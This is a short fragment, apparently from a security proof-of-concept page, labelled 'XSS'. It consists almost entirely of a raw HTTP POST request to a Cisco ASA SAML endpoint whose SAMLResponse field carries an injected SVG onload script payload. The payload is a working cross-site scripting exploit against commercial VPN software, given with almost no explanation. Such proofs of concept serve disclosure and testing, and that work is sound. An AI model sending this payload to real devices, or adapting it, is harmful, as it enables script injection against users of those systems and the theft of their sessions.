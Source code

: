 XSS
---

    POST /+CSCOE+/saml/sp/acs?tgname=a HTTP/1.1
    Host: ciscoASA.local
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 44

    SAMLResponse="><svg/onload=alert('PTSwarm')>